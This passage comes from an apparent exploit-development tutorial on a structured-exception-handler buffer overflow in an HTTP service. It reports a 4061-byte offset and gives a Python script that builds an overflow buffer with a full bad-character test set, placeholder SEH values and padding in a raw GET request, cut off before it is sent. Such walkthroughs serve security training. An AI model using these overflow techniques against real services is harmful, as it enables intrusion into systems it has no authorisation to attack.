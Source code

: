 

Running either of the above commands will report that the offset to over run the **nSEH** value is **4061 Bytes** - We can now amend our exploit to reflect `"A" * 4061`




<p align = "center">
<img src = "https://i.imgur.com/KTyiqOU.png">
</p>





### Finding Bad Chars



Here we will employ the same methods as above, in which we will send every possible character alongside our buffer and analyze how they display in the memory dump - It's also worth noting here that we will have to exclude the chars for `\n` & `\r` as we do not want to send carridge returns and new lines alongside our buffer effectively breaking up the raw **HTTP request**.



I will use the below script here. 



```python
#!/usr/bin/python
import socket
import sys


nseh = "B"*4
seh = "C"*4


badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")


buffer = "A" * (4061-len(badchars))
print "[*] There are %s" %len(badchars) + " bad chars to test"
print "[*] Starting to GET Variable"
buffer += badchars #All of badchars
buffer += nseh #BBBB
buffer += seh #CCCC
junk = "D"*(5000-len(buffer))
buffer += junk #Bunch of D"s to fill remaining space

payload = "GET %d" + str(buffer) + " HTTP/1.1\r\n"
payload += "Host: bof.local\r\n"
```